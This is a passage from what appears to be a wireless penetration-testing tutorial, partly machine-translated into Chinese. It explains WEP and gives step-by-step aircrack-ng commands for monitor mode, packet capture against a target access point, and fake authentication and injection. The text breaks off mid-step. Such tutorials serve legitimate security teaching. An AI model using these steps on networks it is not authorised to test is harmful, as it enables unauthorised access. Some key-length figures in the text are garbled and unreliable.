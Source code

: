 **有线等效隐私**（**WEP**加密是一种标准的 Wi-Fi 无线网络安全算法，用于保护个人和商业网络。WEP 密钥由网络管理员创建，以允许本地网络上的设备组安全连接。当每个数据包从客户端发送到无线接入点时，它都以十六进制数字序列进行编码。这些数字包括数字 0 到 9 和字母 A 到 F。

![WEP encryption](graphics/3183OS_04_04.jpg)

WEP 密钥越长，WEP 加密的比特数越强。例如，如果您有一个包含 10 个字符的 WEP 密钥，它可能在 40 到 60 位之间，而一个包含更复杂的 58 个字符的 WEP 密钥在 256 位的区域内会更强。一些网络仍然依赖 WEP 加密，因为个人或企业可能仍然有通过 Wi-Fi 连接的旧设备。到目前为止，一些仓库或工厂仍在使用 WEP 加密，因为他们根本不想投资可能破坏其生产网络的新技术。

## 破解 WEP 加密

在本节中，我们将逐步介绍如何破解 WEP 加密。

![Cracking WEP encryption](graphics/3183OS_04_05.jpg)

1.  Open the Terminal, type the following command, and press *Enter*:

    ```
    airmon-ng start wlan0

    ```

    此命令将在监控模式下启动`wlan0`接口。**监控模式**是一种功能，允许您的计算机监听无线网卡范围内的每个无线数据包。这种模式允许我们将数据包注入无线网络。以下是输出：

    ![Cracking WEP encryption](graphics/3183OS_04_07.jpg)

2.  Then type the following command and press *Enter*:

    ```
    airodump-ng mon0

    ```

    此命令在无线接口上启用监视器模式。以下是输出：

    ![Cracking WEP encryption](graphics/3183OS_04_08.jpg)

3.  Type the following command and press *Enter*:

    ```
    airodump-ng –c 6 –w capture --bssid 00:13:10:9A:4E:B5 mon0

    ```

    以下是该命令的组件：

    *   `-c`：这是频道
    *   `-w`：这允许对文件进行写访问
    *   `--bssid`：这是无线接入点 MAC 地址

    以下是上一个命令的输出：

    ![Cracking WEP encryption](graphics/3183OS_04_09.jpg)

    您需要将粗体字替换为您的网络信息。

4.  Type the follow command and press *Enter*:

    ```
    aireplay-ng -1 1000 –q 10 –e linksys–a 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0 –ignore-negative-one
